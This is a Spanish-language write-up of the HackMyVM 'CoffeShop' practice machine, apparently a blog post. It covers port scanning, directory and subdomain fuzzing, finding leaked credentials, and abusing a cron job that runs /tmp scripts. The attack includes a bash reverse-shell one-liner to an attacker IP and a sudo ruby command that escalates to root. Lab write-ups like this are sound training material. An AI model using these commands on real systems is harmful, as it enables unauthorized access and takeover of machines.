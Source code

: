 ```yaml
---
layout: post
title: HackMyVM - CoffeShop
author: c4rta
date: 2024-01-15
tags: [HackMyVM]
image: /assets/img/coffeshop/wallhaven-x6wgmo.jpg
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

 ```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **shop**

```ruby
gobuster dir -u http://192.168.1.84/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```ruby
/shop                 (Status: 301) [Size: 311] [--> http://192.168.1.84/shop/]
```

### Explorando el sitio web

En el sitio web principal nos encontramos el nombre de un dominio **midnight.coffee**, es posible que se este aplicando virtual hosting y lo tengamos que agregar al **/etc/host** para que resuelva

```bash
echo "<IP>     midnight.coffee" | tee -a /etc/hosts
```

Si regresamos el sitio web y entramos el recurso **/shop**, nos mostrara un encabezado con varias opciones, donde tendremos un login

![](/assets/img/coffeshop/2.png)

En este punto intente probar con SQLi, NoSQLi, Type Juggling pero nada de eso me funciono, asi que recurri a enumerar subdominios, recordemos que agregamos un dominio al /etc/hosts, por lo cual debemos de hacer el fuzzing con ese dominio, usaremos wfuzz en modo vhost y descubriremos **dev**

```ruby
wfuzz -u 'http://midnight.coffee' -H 'Host: FUZZ.midnight.coffee' -t 100 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 1690
```

```ruby
200        71 L     152 W      1738 Ch     "dev"
```

Tambien hay que agregarlo el /etc/hosts

```bash
echo "<IP>     dev.midnight.coffee" | tee -a /etc/hosts
```

Al entrar al sitio, podremos ver las credenciales del login

![](/assets/img/coffeshop/3.png)

![](/assets/img/coffeshop/4.png)

## Movimiento lateral: tuna -> shopadmin

### user.txt (via no intencionada)

Durante la enumeracion, pude encontrar que en el directorio /opt existe un archivo de ruby que ocuparemos mas adelante

```ruby
-rw-r--r--  1 root root   27 Jan  3 14:00 shop.rb
```
Tambien intente enumerar binarios SUID, permisos a nivel de sudoers y nada, explore un poco mas y encontre en el directorio home de **shopadmin** tiene permisos de ejecucion, por lo que podemos entrar en el pero no listar contenido

![](/assets/img/coffeshop/5.png)

Asi que se me ocurrio leer el archivo **user.txt** y si tengo suerte y existe tener la flag, y si funciono

![](/assets/img/coffeshop/6.png)

### user.txt (via intencionada)

Si mostramos el archivo **.viminfo** podemos ver que se crearon y/o editaron varias cosas, como el crontab y el archivo **/tmp/uwu.sh** 

![](/assets/img/coffeshop/7.png)

Si mostramos las tareas cron, tenemos una que se ejecuta como el usuario **shopadmin**

```ruby
* * * * * /bin/bash /home/shopadmin/execute.sh
```

Al ver su contenido, podemos ver que esta ejecutando cualquier archivo **.sh** del directorio **/tmp**, por lo cual podemos crear uno que nos envie una reverse shell, en mi caso usare el tipico one liner de bash

```bash
#!/usr/bin/env bash
bash -i >& /dev/tcp/<IP>/443 0>&1
```

Despues de 1 minuto, nos llegara una shell y ya tendremos la flag se user por la via intencionada

![](/assets/img/coffeshop/8.png)

## Escalada de privilegios

Si mostramos los permisos de nivel de sudoers, podemos ver que podemos ejecutar cualquier cosa con ruby y el archivo **shop.rb**

```ruby
User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

Al buscar en **GFTOBins** obtenemos que podemos hacernos root ejecutando **ruby -e 'exec "/bin/sh"'**, si lo probamos asi no funcionada, por lo que debemos de indicarle el archivo **/opt/shop.rb**

```ruby
sudo ruby -e 'exec "/bin/bash"'  /opt/shop.rb
```

Y ya seremos root

![](/assets/img/coffeshop/9.png)

Eso ha sido todo, gracias por leer ❤